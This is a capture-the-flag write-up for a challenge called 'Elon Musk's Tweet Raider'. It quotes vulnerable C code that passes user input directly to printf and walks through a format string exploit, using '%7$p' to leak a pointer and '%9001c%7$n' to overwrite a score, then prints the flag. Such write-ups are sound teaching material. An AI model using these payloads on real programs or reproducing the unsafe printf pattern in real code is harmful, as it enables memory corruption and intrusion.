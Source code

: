# Elon Musk's Tweet Raider

Points: 100

Description: Is your tweet dank enough?
 
Creator: nsnc

# Solve

This program is vulnerable to a format string attack:
```c
printf("Your tweet:\n");
printf(tweet);

calculateScore(tweet, score);
printf("Your score: %d\n", *score);
if(*score > 9000) {
    printf("Your score is over 9000!\n");
    printf("%s\n", readFile("./flag.txt"));
}
```

Since a pointer to `score` is on the stack, an attacker can use `%p` to leak it, or `%n` to write to it.

After testing calculating offsets, an input of `%7$p` will print the heap address of the score integer.
```
Tweet: %7$p
Your tweet:
0x55cea2fdd2a0
Your score: 0
```

The format specifier `%n` will write as many characters as were printed to the memory pointed to by the coresponding argument. `%Nc` will print N spaces as padding. We can use this to write `9001` to the score variable using the format string: `%9001c%7$n`.

```
Tweet: %9001c%7$n
<snip>
LOTS OF SPACES
<snip>
Your score: 9001
Your score is over 9000!
pctf{Wh4t's_4ft3r_MAARRRZ?}
